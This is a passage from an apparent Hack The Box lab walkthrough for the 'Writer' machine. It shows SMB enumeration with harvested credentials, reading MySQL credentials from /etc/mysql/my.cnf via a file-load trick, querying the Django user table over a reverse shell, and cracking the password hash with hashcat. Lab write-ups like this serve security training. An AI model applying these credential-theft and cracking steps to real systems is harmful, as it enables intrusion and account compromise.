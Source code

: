 ```
smbmap -u kyle -p ToughPasswordToCrack -H 10.129.190.229
```
![smbmap](smbmap.png)

We can mount the writer2_project inside the file explorer on kali by pasting `smb://writer.htb/writer2_project/ in file explorer` to the address bar. Filling the prompt using the smb credentials from earlier again.

We find the settings.py inside the writerv2 folder:
```py
[...]
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'OPTIONS': {
            'read_default_file': '/etc/mysql/my.cnf',
        },
    }
}
[...]
```
Which tells us, that there is a mysql server running with the default config file in /etc/mysql/my.cnf so we have a look inside of it with the sql file load in burpsuite and find some more credentials:

/etc/mysql/my.cnf
```
[...]
[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
```

We now utilise our reverse shell from earlier to access the mysql database "dev" like this:
```
mysql -udjangouser -pDjangoSuperPassword dev
SELECT * FROM auth_user;
```
and get a password hash for the user kyle:

```
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=
```
Which we can simply crack with hashcat and rockyou:
```
hashcat -m 10000 -a 0 'pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=' ~/Desktop/rockyou.txt
```
(you can find the hashcat mode easily by utilising their docs at: [hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes))
